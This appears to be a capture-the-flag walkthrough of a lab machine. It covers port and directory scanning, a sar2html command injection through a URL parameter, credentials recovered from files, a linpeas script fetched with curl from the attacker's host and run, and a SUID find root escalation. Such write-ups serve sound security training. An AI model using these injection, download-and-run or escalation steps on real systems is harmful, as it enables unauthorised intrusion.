








# Enumeration 

Let's begin enumerating the machine. As usual, I begin with an Nmap scan to discover ports and services on the machine.

## Nmap Scan Results

```
sudo nmap --min-rate 10000 -p- $IP
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
10000/tcp open  snet-sensor-mgmt
55007/tcp open  unknown

sudo nmap -sV -sC $IP -p21,80,10000,55007

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.20.189
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3abe1392d95eb135516d6ce8df911e5 (RSA)
|   256 aedef2bbb78a00702074567625c0df38 (ECDSA)
|_  256 252583f2a7758aa046b2127004685ccb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```


### Open Ports

```
[+] 21/tcp    open  ftp     vsftpd 3.0.3
[+] 80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
[+] 10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
[+] 55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

```

As we can see from the above scan results, this machine has an FTP server that allows anonymous access, a webserver, a Webmin page, and SSH on a non-standard port.

My initial plan of attack is to enumerate the FTP server and see if there's anything interesting inside. Afterwards, I'll investigate the web server on port 80. If that fails, I'll search for exploits for MiniServ 1.930


## FTP Server

```
ftp anonymous@$IP
ls -la

150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt

get .info.txt
exit

cat .info.txt   
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!

```

The message is clearly obfuscated in some way. Initial glance looks like a shift cipher; let's check for ROT13 because that's the most common shift cipher in CTFs.

I'll use a Python script I wrote awhile ago to try decoding this message, but it's probably faster to just use any sort of online tool for this.

I specified that it was a Caesar cipher (shift cipher), with a mode of decrypt, with a shift key value of 13.

```
wget https://raw.githubusercontent.com/balloan/SimpleCiphers/main/SimpleCiphers.py
```



Well, that wasn't helpful in any way, but at least we found it. Let's move on to the web server.


## Web Server

I opened the IP address in my web browser.  http://10.10.49.154/

It was just the default Apache2 web page. The Nmap scan previously showed that robots.txt was a disallowed entry - let's check it.

```
http://10.10.49.154/robots.txt

User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075

```

Interesting. We can't access any of these directories though. What about the string? Let's write a quick python script to decode it.

```
a = '079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075'
b = a.split()
result = ''
for char in b:
    result+=(chr(int(char)))

print(result)
OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK
```

Looks like base64. Let's decode it.

```
echo 'OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK' > string.txt

base64 -d string.txt                                            
99b0660cd95adea327c54182baa51584
```

It took awhile for me to recognize it, but this was actually an MD5 hash
99b0660cd95adea327c54182baa51584 -> kidding

...  This also was not very helpful. Let's move on.

* * * 

## GoBuster

Time for directory busting; let's see if we can find any useful parts of the website to enumerate.

```
gobuster dir -u $IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 

2023/01/03 14:14:35 Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 313] [--> http://10.10.49.154/manual/]
/joomla               (Status: 301) [Size: 313] [--> http://10.10.49.154/joomla/]
/server-status        (Status: 403) [Size: 300]

```

Joomla is a content management system. When we navigate to http://10.10.49.154/joomla/ we can see that the website looks relatively default - it has a changed title, the rest looks like a default installation.

There isn't really much on the home page; there's a login form but we don't have credentials. I tried basic ones such as "admin:admin". 

Joomla doesn't appear to have default credentials, as you set a password during configuration. I could theoretically try bruteforcing this, but I'll enumerate farther first.

Let's run another gobuster scan.

```
gobuster dir -u $IP/joomla -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 
/images               (Status: 301) [Size: 318] [--> http://10.10.87.42/joomla/images/]
/media                (Status: 301) [Size: 317] [--> http://10.10.87.42/joomla/media/]
/templates            (Status: 301) [Size: 321] [--> http://10.10.87.42/joomla/templates/]
/modules              (Status: 301) [Size: 319] [--> http://10.10.87.42/joomla/modules/]
/tests                (Status: 301) [Size: 317] [--> http://10.10.87.42/joomla/tests/]
/bin                  (Status: 301) [Size: 315] [--> http://10.10.87.42/joomla/bin/]
/plugins              (Status: 301) [Size: 319] [--> http://10.10.87.42/joomla/plugins/]
/includes             (Status: 301) [Size: 320] [--> http://10.10.87.42/joomla/includes/]
/language             (Status: 301) [Size: 320] [--> http://10.10.87.42/joomla/language/]
/components           (Status: 301) [Size: 322] [--> http://10.10.87.42/joomla/components/]
/cache                (Status: 301) [Size: 317] [--> http://10.10.87.42/joomla/cache/]
/libraries            (Status: 301) [Size: 321] [--> http://10.10.87.42/joomla/libraries/]
/installation         (Status: 301) [Size: 324] [--> http://10.10.87.42/joomla/installation/]
/build                (Status: 301) [Size: 317] [--> http://10.10.87.42/joomla/build/]
/tmp                  (Status: 301) [Size: 315] [--> http://10.10.87.42/joomla/tmp/]
/layouts              (Status: 301) [Size: 319] [--> http://10.10.87.42/joomla/layouts/]
/administrator        (Status: 301) [Size: 325] [--> http://10.10.87.42/joomla/administrator/]
/cli                  (Status: 301) [Size: 315] [--> http://10.10.87.42/joomla/cli/]
/_files               (Status: 301) [Size: 318] [--> http://10.10.87.42/joomla/_files/]
2023/01/03 14:53:14 Finished

```

Lots of results; let's break this down.

http://10.10.87.42/joomla/installation/ - PLEASE REMEMBER TO COMPLETELY REMOVE THE INSTALLATION FOLDER.
You will not be able to proceed beyond this point until the "installation" folder has been removed. This is a security feature of Joomla!
- We like security features. The installation folder has not been removed - we'll dig into this later if we find nothing.

http://10.10.87.42/joomla/administrator/
- Admin login page -> If we find credentials somewhere, this looks promising.

http://10.10.87.42/joomla/build/
- http://10.10.87.42/joomla/build/jenkins/ - unit-tests.sh & docker-compose.yml -> Credentials for MySQL / postgres?
- We can't use these credentials anywhere, and there's a chance this is default for a Joomla deployment - maybe if there's an internal database service later on this could be helpful.

```
cat unit-tests.sh
mysql -u root joomla_ut -h mysql -pjoomla_ut < "$BASE/tests/unit/schema/mysql.sql"
psql -c 'create database joomla_ut;'  -U postgres -h "postgres" > /dev/null

cat docker-compose.yml

environment:
     MYSQL_DATABASE: joomla_ut
     MYSQL_USER: joomla_ut
     MYSQL_PASSWORD: joomla_ut
     MYSQL_ROOT_PASSWORD: joomla_ut

```

http://10.10.87.42/joomla/_files/
- Page containing just the string: 'VjJodmNITnBaU0JrWVdsemVRbz0K' with the title "Woops"
- It was double encoded with Base64 - I used CyberChef to decode it. 
- Decoded = Whopsie daisy
- This room creator clearly likes leaving rabbit holes everywhere.

* * *

Time for another GoBuster scan, this time checking everything under /joomla/index.php

```
gobuster dir -u http://10.10.161.218/joomla/index.php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 32 
/login                (Status: 303) [Size: 0] [--> /joomla/index.php/component/users/?view=login&Itemid=104]
/06                   (Status: 200) [Size: 12491]
/2                    (Status: 200) [Size: 11587]
/03                   (Status: 200) [Size: 11600]
/3                    (Status: 200) [Size: 11595]
/02                   (Status: 200) [Size: 11592]
/6                    (Status: 200) [Size: 12486]
/0                    (Status: 200) [Size: 12486]
/news                 (Status: 200) [Size: 11567]
/home                 (Status: 200) [Size: 12484]
/News                 (Status: 200) [Size: 11567]
/Home                 (Status: 200) [Size: 12484]

```

Nothing at all interesting in these.

I'm going to try enumerating the joomla subdirectories again, with a different wordlists + extensions, as I haven't found a clear direction to attack yet.

The joomla portion seemed the most promising overall so far, and also had rabbit holes like `_files`

```
gobuster dir -u $IP/joomla -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 128 -x php,txt,html

2023/01/03 16:35:48 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 297]
/.html                (Status: 403) [Size: 298]
/images               (Status: 301) [Size: 318] [--> http://10.10.86.86/joomla/images/]
/media                (Status: 301) [Size: 317] [--> http://10.10.86.86/joomla/media/]
/templates            (Status: 301) [Size: 321] [--> http://10.10.86.86/joomla/templates/]
/modules              (Status: 301) [Size: 319] [--> http://10.10.86.86/joomla/modules/]
/tests                (Status: 301) [Size: 317] [--> http://10.10.86.86/joomla/tests/]
/bin                  (Status: 301) [Size: 315] [--> http://10.10.86.86/joomla/bin/]
/plugins              (Status: 301) [Size: 319] [--> http://10.10.86.86/joomla/plugins/]
/includes             (Status: 301) [Size: 320] [--> http://10.10.86.86/joomla/includes/]
/language             (Status: 301) [Size: 320] [--> http://10.10.86.86/joomla/language/]
/README.txt           (Status: 200) [Size: 4793]
/components           (Status: 301) [Size: 322] [--> http://10.10.86.86/joomla/components/]
/cache                (Status: 301) [Size: 317] [--> http://10.10.86.86/joomla/cache/]
/libraries            (Status: 301) [Size: 321] [--> http://10.10.86.86/joomla/libraries/]
/installation         (Status: 301) [Size: 324] [--> http://10.10.86.86/joomla/installation/]
/build                (Status: 301) [Size: 317] [--> http://10.10.86.86/joomla/build/]
/tmp                  (Status: 301) [Size: 315] [--> http://10.10.86.86/joomla/tmp/]
/LICENSE.txt          (Status: 200) [Size: 18092]
/layouts              (Status: 301) [Size: 319] [--> http://10.10.86.86/joomla/layouts/]
/administrator        (Status: 301) [Size: 325] [--> http://10.10.86.86/joomla/administrator/]
/configuration.php    (Status: 200) [Size: 0]
/htaccess.txt         (Status: 200) [Size: 3159]
/cli                  (Status: 301) [Size: 315] [--> http://10.10.86.86/joomla/cli/]
/_files               (Status: 301) [Size: 318] [--> http://10.10.86.86/joomla/_files/]
/.html                (Status: 403) [Size: 298]
/.php                 (Status: 403) [Size: 297]
Progress: 882070 / 882244 (99.98%)======================================================

```

Nothing new or interesting as far as extensions go; let's switch wordlists.

```
gobuster dir -u $IP/joomla -w /usr/share/wordlists/dirb/common.txt -t 128 -x php,txt,html 

2023/01/03 17:26:46 Starting gobuster in directory enumeration mode
===============================================================
/_archive             (Status: 301) [Size: 320] [--> http://10.10.86.86/joomla/_archive/]
/_database            (Status: 301) [Size: 321] [--> http://10.10.86.86/joomla/_database/]
/_files               (Status: 301) [Size: 318] [--> http://10.10.86.86/joomla/_files/]
/_test                (Status: 301) [Size: 317] [--> http://10.10.86.86/joomla/_test/]
/~www                 (Status: 301) [Size: 316] [--> http://10.10.86.86/joomla/~www/]
/.html                (Status: 403) [Size: 298]
/.php                 (Status: 403) [Size: 297]
/.htpasswd.html       (Status: 403) [Size: 307]
/.htaccess.txt        (Status: 403) [Size: 306]
/.htpasswd.php        (Status: 403) [Size: 306]
/.hta                 (Status: 403) [Size: 297]
/.htpasswd.txt        (Status: 403) [Size: 306]
/.hta.html            (Status: 403) [Size: 302]
/.htaccess.php        (Status: 403) [Size: 306]
/.htpasswd            (Status: 403) [Size: 302]
/.hta.php             (Status: 403) [Size: 301]
/administrator        (Status: 301) [Size: 325] [--> http://10.10.86.86/joomla/administrator/]
/.htaccess.html       (Status: 403) [Size: 307]
/.hta.txt             (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 302]
/bin                  (Status: 301) [Size: 315] [--> http://10.10.86.86/joomla/bin/]
/build                (Status: 301) [Size: 317] [--> http://10.10.86.86/joomla/build/]
/cache                (Status: 301) [Size: 317] [--> http://10.10.86.86/joomla/cache/]
/components           (Status: 301) [Size: 322] [--> http://10.10.86.86/joomla/components/]
/configuration.php    (Status: 200) [Size: 0]
/images               (Status: 301) [Size: 318] [--> http://10.10.86.86/joomla/images/]
/includes             (Status: 301) [Size: 320] [--> http://10.10.86.86/joomla/includes/]
/index.php            (Status: 200) [Size: 12476]
/index.php            (Status: 200) [Size: 12476]
/installation         (Status: 301) [Size: 324] [--> http://10.10.86.86/joomla/installation/]
/language             (Status: 301) [Size: 320] [--> http://10.10.86.86/joomla/language/]
/layouts              (Status: 301) [Size: 319] [--> http://10.10.86.86/joomla/layouts/]
/libraries            (Status: 301) [Size: 321] [--> http://10.10.86.86/joomla/libraries/]
/LICENSE.txt          (Status: 200) [Size: 18092]
/media                (Status: 301) [Size: 317] [--> http://10.10.86.86/joomla/media/]
/modules              (Status: 301) [Size: 319] [--> http://10.10.86.86/joomla/modules/]
/plugins              (Status: 301) [Size: 319] [--> http://10.10.86.86/joomla/plugins/]
/README.txt           (Status: 200) [Size: 4793]
/templates            (Status: 301) [Size: 321] [--> http://10.10.86.86/joomla/templates/]
/tests                (Status: 301) [Size: 317] [--> http://10.10.86.86/joomla/tests/]
/tmp                  (Status: 301) [Size: 315] [--> http://10.10.86.86/joomla/tmp/]
/web.config.txt       (Status: 200) [Size: 1859]

```

That wordlist got me substantially more information.

http://10.10.86.86/joomla/_archive/
- Mnope, nothin to see.

http://10.10.86.86/joomla/_database/
- Lwuv oguukpi ctqwpf.
- I just used my script with various shift keys because it looked like a shift cipher again. Nothing helpful, again.

```
python3 SimpleCiphers.py -c caesar -m d -k 24 "Lwuv oguukpi ctqwpf."
Just messing around.
```

http://10.10.86.86/joomla/_test/
- This actually looks very interesting - sar2html

When I googled it, I located the following exploit:  https://www.exploit-db.com/exploits/47204

We like to see RCE, and it seems easy enough to abuse.

In order to exploit this, it seems like we can just add commands in the URL, ie "http://10.10.86.86/joomla/_test/index.php?plot=;whoami"
- Under the select host section we see `www-data` -> Confirmed Vulnerable.

There are quite a few directories above that I didn't investigate - I'll head back to them later if this exploit doesn't achieve my goals.


# sar2html

Let's begin enumerating using this exploit.

http://10.10.86.86/joomla/_test/index.php?plot=;ls





```
http://10.10.59.164/joomla/_test/index.php?plot=;ls
http://10.10.59.164/joomla/_test/index.php?plot=;cat%20log.txt
```

Credentials: `basterd:superduperp@$$`

# Initial Access

We found credentials. We know from our Nmap scans that SSH is running on a non-standard port - let's try to connect.

`ssh basterd@$IP -p 55007` -> `superduperp@$$` 

We successfully logged in. Let's enumerate

```
ls -la

drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache

less backup.sh

REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG
                
                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi
```

That was fast; it looks like we found another set of credentials.

`stoner:superduperp@$$no1knows`

There wasn't much else to find for the basterd user - we weren't in the sudoers list, the directory was pretty empty, and overall there wasn't much there so I decided to try switching to the newly discovered user with the credentials.

```
su stoner   -> superduperp@$$no1knows
cd ~
la -la

drwxr-x--- 3 stoner stoner 4096 Aug 22  2019 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret

cat .secret
You made it till here, well done.

stoner@Vulnerable:~$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
stoner@Vulnerable:~$ 

ls /NotThisTime/
ls: cannot access '/NotThisTime/': No such file or directory

```

I figured I'd double check that it didn't actually exist, considering that the creator seems to like being tricky. Nothing immediately stood out as a privesc vector.

# Privilege Escalation

I'm going to transfer over Linpeas.sh to the target box to automate the process of looking for privilege escalation vectors.

```
#Attacker machine
python -m SimpleHTTPServer 80

#Target Machine
cd /var/tmp
curl 10.6.20.189/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## Linpeas Results

I included the most interesting parts from Linpeas!









The fact that /usr/bin/find has the SUID bit set immediately stood out to me - let's check gtfobins, but that's looking like a very easy privilege escalation.



Let's try it out.

```
/usr/bin/find . -exec /bin/sh -p \; -quit
whoami
root

cd /root
cat root.txt
It wasn't that hard, was it?
```


Room complete!

# Takeaways

This box was pretty easy overall, but I definitely got a little stuck during the web page enumeration. There was a ton of information, and a ton of results found from the directory busting, but nothing interesting. In hindsight, I should have tried multiple wordlists + searching for extensions much earlier
